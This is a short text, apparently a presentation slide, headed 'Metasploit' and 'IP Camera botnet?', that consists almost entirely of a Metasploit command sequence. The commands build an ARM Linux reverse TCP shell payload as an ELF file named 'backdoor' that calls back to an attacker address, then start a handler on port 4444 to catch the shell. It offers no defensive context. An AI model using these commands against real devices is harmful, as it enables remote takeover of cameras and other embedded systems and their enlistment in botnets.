

# Metasploit
IP Camera botnet?

ReverseTCPShell:
msfconsole
use linux/armle/shell_reverse_tcp
set LHOST 192.168.1.107
set SHELL /bin/sh
generate -f backdoor -t elf
use exploit/multi/handler
set PAYLOAD linux/armle/shell_reverse_tcp
set LPORT 4444
exploit # :)